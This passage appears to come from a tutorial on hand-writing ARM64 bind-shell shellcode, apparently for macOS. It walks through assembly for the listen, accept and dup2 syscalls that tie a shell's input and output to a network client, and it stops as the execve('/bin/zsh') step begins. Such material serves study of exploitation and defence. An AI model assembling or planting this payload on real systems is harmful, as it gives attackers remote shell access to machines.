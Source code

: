 ```cpp
int listen(int socket, int backlog);
```

```nasm
mov    x0, x19           ; sockfd
mov    x1, xzr           ; backlog = 0
mov    x16, #106         ; syscall: listen
svc    #0xffff
```

Then accept incoming connection:    

```cpp
int accept(int socket, struct sockaddr *address, socklen_t *address_len);
```

via ARM:    

```nasm
mov    x0, x19           ; server socket
mov    x1, xzr
mov    x2, xzr
mov    x16, #30          ; syscall: accept
svc    #0xffff
mov    x20, x0           ; new client socket
```

Now we're ready to redirect `STDIN/STDOUT/STDERR` to the new socket:    

```cpp
int dup2(int fd, int fd2);
```

Classic `dup2` dance: `socket -> 2, 1, 0`:     

```nasm
mov    x16, #90
mov    x1, #2
svc    #0xffff

mov    x0, x20
mov    x1, #1
svc    #0xffff

mov    x0, x20
lsr    x1, x1, #1         ; = 0
svc    #0xffff
```

Note: we reused `x1` instead of hardcoding `#0` - just to demonstrate bit shift trick.    

Finally, we need to run `execve("/bin/zsh")`:    

```cpp
int execve(const char *path, char *const argv[], char *const envp[]);
```

First of all, we hardcode the string `/bin/zsh` and push it on the stack:    
